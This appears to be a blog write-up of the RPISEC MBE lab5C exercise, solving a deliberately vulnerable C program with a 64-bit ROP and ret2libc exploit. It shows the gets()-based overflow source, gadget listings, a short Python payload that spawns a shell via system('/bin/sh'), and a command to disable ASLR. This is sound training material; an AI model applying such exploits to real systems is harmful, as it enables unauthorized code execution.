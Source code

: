 ```yaml
---
layout: post
title: ROP lab RPISEC
date: 2024-01-12 
description: rpisec lab5C
categories: rpisec bin-exp
---
```


### Solving lab5C "03/13 | --[ ROP Lab" (https://github.com/RPISEC/MBE/blob/master/src/lab05/lab5C.c)


### This lab is related to the exploration of DEP/NX.

First I'll talk about the problem I had with compiling the binary. This lab is made for 32-bit architecture and the exploit is also 32-bit based. And my idea was to do it in 64. So, due to some problems with address randomization, I had to add the ``` -no-pie``` flag to compile it. It was compiled like this:

```gcc lab5C.c -o lab5C -fno-stack-protector -no-pie```


As the exploration learned in the slides is for 32 bits, I had to use a technique aimed at 64 bits. I did a step by step of this technique here: https://geleiaa.github.io/blog/2024/bypass_NX/

And now let's see how it was applied in this binary.


Let's look at the source code to see what the binary does.

```c
#include <stdlib.h>
#include <stdio.h>

/* gcc -fno-stack-protector -o lab5C lab5C.c */

char global_str[128];

/* reads a string, copies it to a global */
void copytoglobal()
{
    char buffer[128] = {0};
    gets(buffer);
    memcpy(global_str, buffer, 128);
}

int main()
{
    char buffer[128] = {0};

    printf("I included libc for you...\n"\
           "Can you ROP to system()?\n");

    copytoglobal();

    return EXIT_SUCCESS;
}

```

It looks like simple code. The main prints some text. And the ``` copytoglobal() ``` function does exactly that, it takes what comes from stdin and passes it to the global variable.

Running the binary:

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/runbinrop.png" width="300" height="300" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


### To begin the exploration, let's see if we can overflow this buffer that stores the input.

Arriving at the RET of the ```copytoglobal()``` function we see that it was overwritten after 136 bytes of our pattern:

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/retoverwriterop.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


Now that we know how to overwrite the return address of the ```copytoglobal()``` function, let's go with the ROP + ret2libc techniques.


### ROP + ret2libc

For this exploration we will need three things: 1 - address of the ```system()``` function, 2 - an argument to system(), 3 - gadgets that put this argument in the right place.


First the Gadgets. We need a "pop rdi" so that the system() function argument is passed to the RDI register and then passed to the function.

```sh
$ ROPgadget --binary lab5C --ropchain | grep pop
0x000000000040113b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401136 : mov byte ptr [rip + 0x2f03], 1 ; pop rbp ; ret
0x00000000004013ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013b0 : pop r14 ; pop r15 ; ret
0x00000000004013b2 : pop r15 ; ret
0x00000000004013ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013af : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040113d : pop rbp ; ret
0x00000000004013b3 : pop rdi ; ret  <===== this addr
0x00000000004013b1 : pop rsi ; pop r15 ; ret
0x00000000004013ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```


Now let's get the address of the system function:

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/systemaddr.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


Lastly, the address of the string "/bin/sh" that we will use as an argument for system()

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/binshaddr.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


### Having all the addresses we will put them in the exploit

```py
import sys
import struct

gadget = struct.pack("<Q", 0x00000000004013b3)

binsh_addr = struct.pack("<Q", 0x7ffff7f7f152)

sys_addr = struct.pack("<Q", 0x7ffff7e2fe50)

sys.stdout.buffer.write(b'A'*136 + gadget + binsh_addr + sys_addr)
```


### Now let's run it in GDB and see if it works.


We can see the "pop rdi" gadget followed by "/bin/sh" and system on the stack:

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/exprop1.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


After pop rdi is executed we see that "/bin/sh" was passed to the register:

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/exprop2.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


And after the system call, GDB finishes executing the binary showing that a process has been started:

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/exprop3.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


It seems like everything is fine, the exploit worked in the context of GDB, now let's see outside.

note: It is worth remembering that the machine's ASLR must be disabled otherwise the exploit will not work. To disable it: ```$ sudo sysctl kernel.randomize_va_space=0```


### pwn!

<div class="col-sm mt-3 mt-md-0">
    {% include figure.liquid loading="eager" path="assets/img/exprop4.png" width="500" height="500" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


Remembering that the idea of this laboratory was to be done in 32-bit architecture but I decided to do it in 64-bit because it was more current. In 32 bits, it changes the way exploration is done, passing system() function arguments through the stack and not through registers. The rest is basically the same.
